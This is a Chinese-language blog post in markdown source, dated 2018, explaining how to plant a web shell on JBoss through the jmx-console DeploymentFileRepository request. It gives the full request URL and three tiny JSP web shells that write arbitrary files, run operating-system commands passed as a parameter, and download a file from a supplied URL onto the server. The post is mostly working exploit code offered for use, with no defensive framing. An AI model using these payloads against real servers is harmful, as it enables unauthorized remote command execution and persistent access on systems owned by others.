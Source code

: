 ```yaml
---
title: "JBoss 本地 Getshell"
date: 2018-08-13T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['jboss']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



Jboss 远程部署 getshell 有时候会爆 `org.jboss.web.tomcat.filters.ReplyHeaderFilter.doFilter` 的错误.

本地 getshell 不需要远程主机, 缺点是只能写特别小的 jsp 马, 太大可能会 400 或者 no response found.

<!--more-->

```
/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=upload5warn.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=CONTENT&argType=boolean&arg4=True
```

把 CONTENT 替换成要写入的内容, 注意先要进行一次 url 编码.

给出几个特别小的马.

写 shell, 传参 `?f=test.txt&t=helloworldT`

```
<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes()); %>
```

执行命令, 传参 `?i=whoami`

```
<%if(request.getParameter("i")!=null){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>
```

下载文件, 传参 `?f=test.txt&u=http://example.com/test.txt`

```
<% if(request.getParameter("u")!=null){java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();byte[] b = new byte[1024];java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();int a = -1;while ((a = in.read(b)) != -1) {baos.write(b, 0, a);}new java.io.FileOutputStream(application.getRealPath("/")+"/"+ request.getParameter("f")).write(baos.toByteArray());}%>
```